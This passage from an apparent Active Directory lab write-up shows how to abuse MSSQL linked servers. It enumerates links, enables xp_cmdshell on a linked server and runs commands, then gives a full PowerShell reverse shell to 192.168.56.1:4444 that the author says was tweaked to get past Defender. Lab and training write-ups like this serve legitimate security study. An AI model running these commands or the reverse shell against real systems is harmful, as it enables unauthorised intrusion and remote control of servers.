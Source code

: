 - This play the following queries :
```
EXEC sp_linkedservers
EXEC sp_helplinkedsrvlogin
```

- As we can see a linked server exist with the name BRAAVOS and a mapping exist with the user jon.snow and sa on braavos.
    
- If we use the link we can get a command injection on braavos:
    
```
use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami
```
`

- This play the following MSSQL commands :

```sql
EXEC ('select system_user as "username"') AT BRAAVOS<br>EXEC ('exec master.dbo.sp_configure ''show advanced options'',1;RECONFIGURE;exec master.dbo.sp_configure ''xp_cmdshell'', 1;RECONFIGURE;') AT BRAAVOS<br>EXEC ('exec master..xp_cmdshell ''whoami''') AT BRAAVOS
```

- We got a command injection on braavos.essos.local as essos\sql_svc
    
- I have done the modifications on mssqlclient.py to be able to chain trusted_links. From this we can continue to another trusted link, etc…
    
- Example :
![screenshot](pics/use_link.png)


## Command execution to shell

- We got command execution on castelblack and also on braavos. But now we want a shell to interact with the server.
- To get a shell we can use a basic Powershell webshell (There is one available on the [arsenal](https://github.com/Orange-Cyberdefense/arsenal) commands cheat sheet project. This is another of my projects that i will need to improve when i get the time, but this script do not bypass defender anymore, so let’s write some modifications):
```
$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);<br>$s = $c.GetStream();[byte[]]$b = 0..65535\|%{0};<br>while(($i = $s.Read($b, 0, $b.Length)) -ne 0){<br>    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);<br>    $sb = (iex $d 2>&1 \| Out-String );<br>    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');<br>    $s.Write($sb,0,$sb.Length);<br>    $s.Flush()<br>};<br>$c.Close()
```
